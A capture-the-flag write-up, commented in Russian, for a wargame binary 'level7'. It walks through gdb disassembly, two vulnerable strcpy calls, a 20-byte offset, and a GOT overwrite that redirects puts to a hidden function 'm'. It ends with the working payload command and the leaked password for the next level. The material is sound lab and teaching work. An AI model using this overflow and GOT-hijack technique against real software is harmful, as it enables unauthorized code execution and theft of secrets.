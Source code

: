 # Вызов 'strcpy', уязвимого к переполнению буфера
=> 0x80485a0 <main+127>:	call   0x80483e0 <strcpy@plt>

=> 0x80485bd <main+156>:	call   0x80483e0 <strcpy@plt>

# Программа читает файл '/home/user/level8/.pass' с помощью 'fopen' и записывает его в глобальную переменную с помощью 'fgets'
# Функция 'm' печатает эту переменную, но не вызывается в основной функции

# Итак, нам нужно вызвать функцию 'm' ПОСЛЕ вызова 'fgets'
# Это делается заменой 'put' GOT (найдено после вызова 'fgets')
=> 0x80485eb <main+202>:	call   0x80483c0 <fgets@plt>
0x80485f0 <main+207>:	mov    DWORD PTR [esp],0x8048703
0x80485f7 <main+214>:	call   0x8048400 <puts@plt>
# вызов 'm'

# Мы используем шаблон gdb create или search, чтобы найти, в каких регистрах смещения происходит перезапись

# Мы нашли смещение 20 для первого 'strcpy'
# Также, когда мы запускаем следующее

gdb> r $(python -c "print 'A'*24") 'BBBB'
# Первый 'strcpy' прошел успешно, а вторые - SEGV со следующими аргументами
Guessed arguments:
arg[0]: 0x41414141 ('AAAA')
arg[1]: 0xffffd8f0 ("BBBB")

# Это интересно, потому что это означает, что второй 'strcpy' попытался записать значение argv [2] ...
# в адрес, записанный в argv [1] [20-24]

# Затем нам нужно найти адрес 'Put @ got'
gdb> disass main
[...]
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
[...]
gdb> disass 0x8048400
[...]
0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928
[...]
gdb> x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406

# нам нужен адрес функции m
gdb> x m
0x80484f4 <m>:	0x83e58955

# Тогда нам просто нужно написать payload
$> ./level7 $(python -c "print 'A'*20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

